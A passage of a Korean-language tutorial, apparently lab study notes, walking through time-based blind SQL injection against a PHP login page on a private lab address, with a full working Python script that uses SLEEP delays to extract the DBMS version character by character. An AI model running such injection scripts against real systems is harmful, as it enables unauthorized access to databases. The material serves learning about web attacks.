 참과 거짓의 결과 정보를 이용하여 DBMS의 버전을 획득해보자.

다음과 같이 DBMS 버전의 문자열 길이를 확인할 것이고, URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

SLEEP을 이용하기 때문에 참이면 일정 시간동안 딜레이가 걸릴 것이다.

```py
QUERY       = requests.utils.quote(f'\' OR IF(LENGTH(VERSION())={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

쿼리의 결과가 참일 경우 DBMS 버전의 문자열 길이를 알 수 있다.

```py
REQUEST     = requests.get(url=URL)
if END_TIME - START_TIME > SLEEP_TIME:
    RESULT_LENGTH = i
    break
```

DBMS의 버전을 확인하기 위해 SUBSTR로 한글자씩 맞춰나갈 것이며, 대소문자를 구분하기 위해 ASCII함수를 사용하자.

```py
QUERY       = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR(VERSION(),{i+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

마찬가지로 쿼리의 결과가 참일 경우 DBMS 버전의 문자열 일부를 알 수 있다.

다음의 Full Code로 DBMS의 버전을 확인해보자.

```py
import requests
import string
import time

TARGET          = 'http://192.168.0.58/index.php'
SLEEP_TIME      = 0.5
RESULT          = ''
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'\' OR IF(LENGTH(VERSION())={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    START_TIME  = time.time()
    REQUEST     = requests.get(url=URL)
    END_TIME    = time.time()
    if END_TIME - START_TIME > SLEEP_TIME:
        RESULT_LENGTH = i
        break
print(f'VERSION LENGTH : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    for s in string.printable.strip():
        QUERY       = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR(VERSION(),{i+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        START_TIME  = time.time()
        REQUEST     = requests.get(url=URL)
        END_TIME    = time.time()
        if END_TIME - START_TIME > SLEEP_TIME: RESULT += s
print(f'VERSION : {RESULT}')
```
